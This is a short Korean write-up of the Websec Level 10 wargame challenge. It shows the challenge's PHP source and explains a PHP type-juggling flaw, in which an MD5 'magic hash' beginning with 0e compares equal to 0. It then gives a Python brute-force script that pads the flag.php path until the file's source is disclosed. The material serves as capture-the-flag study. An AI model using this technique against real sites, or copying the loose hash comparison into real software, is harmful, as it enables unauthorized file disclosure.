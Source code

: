 ```yaml
---
title : "Websec - Level 10"
excerpt : "Websec - Easy Level 10 (풀이봄..)"
toc: true
toc_sticky: true
categories:
  - Websec
tags:
  - type juggling
  - magic hash
---
```


## 1. Source code
<img src="/assets/images/websec-level 10.jpg">
``` php
if (isset ($_REQUEST['f']) && isset ($_REQUEST['hash'])) {
    $file = $_REQUEST['f'];
    $request = $_REQUEST['hash']; // default: substr(md5($flag.'index.php'.$flag),0,8) -> b4382d64
    $hash = substr (md5 ($flag . $file . $flag), 0, 8);
    echo '<div class="row"><br><pre>';
    if ($request == $hash) {
        show_source ($file);
    } 
    else {
        echo 'Permission denied!';
    }
    echo '</pre></div>';
}
```

## 2. Vulnerability

flag.php 파일을 확인을 해야하므로 $file 값은 flag.php가 되고, 입력한 해쉬 값과 $hash 변수 값을 비교하는 부분을 통과를 해야함.  
여기서 **magic hash**란 것이 있다. md5 해쉬 암호화를 했을 때, 0e1234 이런 식으로 암호화 되는 경우가 있는데 0e로 시작하면 그 값은 0과 같음. 이 점을 이용해서 풀 수 있음.


## 3. Solution
파일 이름에 따라 $hash 값이 바뀌게 되는데 flag.php 파일은 읽어야 되므로 '.' 과 '/'을 붙여줘서 브루트 포스를 하면 됨. 한 870번 조금 넘어설때 쯤 됨.


```python
import requests

url='http://websec.fr/level10/index.php'
string='flag.php';
headers={'Content-Type':'application/x-www-form-urlencoded'}
for i in range(1,1000) :
    data={'f':string,'hash':0}
    res=requests.post(url,data=data,headers=headers)
    if("Permission denied!" not in res.text):
        print(res.text)
        break
    print("fail.. "+str(i)+" trying")
    string='.'+'/'*i+'flag.php'
```